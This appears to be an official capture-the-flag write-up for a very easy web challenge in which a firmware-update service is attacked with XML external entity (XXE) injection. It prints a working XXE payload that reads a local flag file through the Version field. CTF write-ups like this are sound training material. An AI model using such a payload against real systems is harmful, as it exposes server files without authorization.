


        <font size="10">Jailbreak</font>

9<sup>th</sup> May 2024 / D24.xx.xx

​Prepared By: makelaris

​Challenge Author(s): makelaris

​Difficulty: <font color=green>Very Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- XXE

## Description

* The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port? The flag is located in /flag.txt

## Skills Required
* Understanding of HTTP request handling.
* Familiarity with XML documents structure.

## Skills Learned
* Performing XML external entity (XXE) injection.


## Application overview


When we visit the site we're greeted with an application handling firmware updates. This application accepts XML data over POST requests and processes them to initiate supposed firmware updates on a satellite system. 

Looking at the sample XML document, we can deduce that the extracted `Version` value from the XML input is used to construct a response message, so as the name of the challenge suggest let's use some common XXE payloads using the XML structure provided.


 
Using the following payload we get the flag.

```xml
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
    </Firmware>
</FirmwareUpdateConfig>
```
